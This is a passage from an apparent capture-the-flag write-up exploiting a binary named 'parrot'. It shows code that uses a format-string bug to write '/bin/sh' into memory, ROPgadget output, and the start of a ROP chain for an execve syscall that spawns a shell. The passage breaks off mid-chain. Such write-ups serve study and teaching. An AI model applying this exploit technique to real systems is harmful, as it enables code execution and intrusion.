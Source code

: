 ![](images/data.png)

```py
writable_data = 0x4000 + binary_base

write_bin_payload = fmt_str.write(writable_data, b"/bin")
fmt_str.execute_writes()
write_sh_payload = fmt_str.write(writable_data + 4, b"/sh\0")
fmt_str.execute_writes()
```

## Find gadgets and write a ropchain

Let's run `ROPgadget` to look for useful gadgets.

```
$ ROPgadget --binary ./parrot
Gadgets information
============================================================
[...]
0x000000000000124b : pop rdi ; ret
0x00000000000011df : pop rdx ; pop rax ; ret
0x0000000000001249 : pop rsi ; pop r15 ; ret
[...]
0x00000000000011dd : syscall
[...]

Unique gadgets found: 88
```

Perfect, we have every gadget needed to craft an `execve` syscall! Let's just create our ropchain and use the format string to write it on the return address of the function. The offset on the stack of this return address is once again just found using gdb.

```py
saved_rip = stack_leak - 0x2D1

syscall = 0x11dd + binary_base
pop_rdi = 0x124b + binary_base
pop_rsi_r15 = 0x1249 + binary_base
pop_rdx_rax = 0x11df + binary_base
pop_rax = 0x11e0 + binary_base

execve = 0x3B
argv = 0
envp = 0

rop_chain = p64(pop_rdi) + p64(writable_data)
rop_chain += p64(pop_rsi_r15) + p64(argv) + p64(0)
```
